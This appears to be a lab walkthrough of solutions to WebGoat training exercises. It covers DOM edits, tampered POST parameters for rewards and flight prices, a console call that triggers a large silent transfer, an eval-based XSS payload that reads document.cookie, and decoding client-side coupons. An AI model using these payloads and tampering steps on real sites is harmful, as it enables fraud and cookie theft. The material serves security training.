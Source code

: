 ## DOM Injection

Using Chrome 'inspect element' edit the html code for disabled button by removing `disabled=""` and the button is now enabled.

---

## XML Injection

After submitting the given account ID, you will observe that the account balance seem to only review the first 3 rewards (out of total 5). If you check all items and submit them, intercept with burp (or other HTTP intercept tool) you could see the following POST parameters

```
accountID=836239&check1001=on&check1002=on&check1003=on&SUBMIT=Submit
```

Modify the request to include the other 2 rewards (assuming that the naming convention used is in sequential numbering eg. 1001,1002,1003,1004,1005)

```
accountID=836239&check1001=on&check1002=on&check1003=on&check1004=on&check1005=on&SUBMIT=Submit
```

---

## JSON Injection

From: 'BOS'

To: 'SEA'

You will see there are 2 radio buttons, select the one with 0 stops priced at $600 and click submit with burp (or other HTTP intercept tools)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%24600`

We observe that it is submitting `%24600` which translates to `$600`. Modify the following to make the flight priced cheaper (real cheap at $1!)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%241`

---

## Silent Transactions Attack

When intercepting HTTP you will notice that GET request is made with all parameters shown eg.

```
GET /WebGoat/attack?Screen=144&menu=400&from=ajax&newAccount=test&amount=123&confirm=Transferring
```

To submit data silently, using Chrome 'Inspect element' and click 'Console' tab and issue `javascript:` and you should see one of the autocompleted commands is `javascript:submitData()`. If you enter it, below is the result

```javascript
javascript:submitDatasubmitData(accountNo, balance) {var url = 'attack?Screen=144&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
```

We can observe from this function `submitData()` requires 2 parameters which seems like what is the account number and balance amount to transfer. Issue the following command in console.

```javascript
javascript:submitData(123,999999999999999)
```

---

## Dangerous Use of Eval

We can get XSS for appending this to `Enter your three digit access code:`

```javascript
');alert(document.cookie);('
```

---

## Insecure Client Storage

### Stage 1

`Inspect` > `Sources` check javascript folder `clientSideValidation.js`. The Coupons required are actually found below, but they are 'encrypted'. To 'decrypt' the coupons, simply copy the whole block of codes into your developer tool's `console`

```javascript
var coupons = ["nvojubmq",
"emph",
"sfwmjt",
"faopsc",
"fopttfsq",
"pxuttfsq"];

function isValidCoupon(coupon) {
    coupon = coupon.toUpperCase();
    for(var i=0; i<coupons.length; i++) {
        decrypted = decrypt(coupons[i]);  //<-------- HOW TO DECRYPT HERE!!!
        if(coupon == decrypted){
            ajaxFunction(coupon);
            return true;
        }
    }
    return false;   
}

function decrypt(code){
    code = code.toUpperCase();
    alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    caesar = '';

    for (i = code.length ;i >= 0;i--){  
        for (j = 0;j<alpha.length;j++){     
            if(code.charAt(i) == alpha.charAt(j)){
                caesar = caesar + alpha.charAt((j+(alpha.length-1))%alpha.length);
            }       
        }
    }   
    return caesar;
}
```

Now run the command `decrypted = decrypt(coupons[0]);` ... `decrypted = decrypt(coupons[4]);`

![](/WebGoat/screens/coupons.png)

### Stage 2

After applying the coupons, update quantity of items and see the total cost add up with the coupon discount being applied. Then right click the value of total cost and select `Inspect` , now modify the value to `$0.0` and click `Purchase` button. 

![](\WebGoat\screens\free.png)


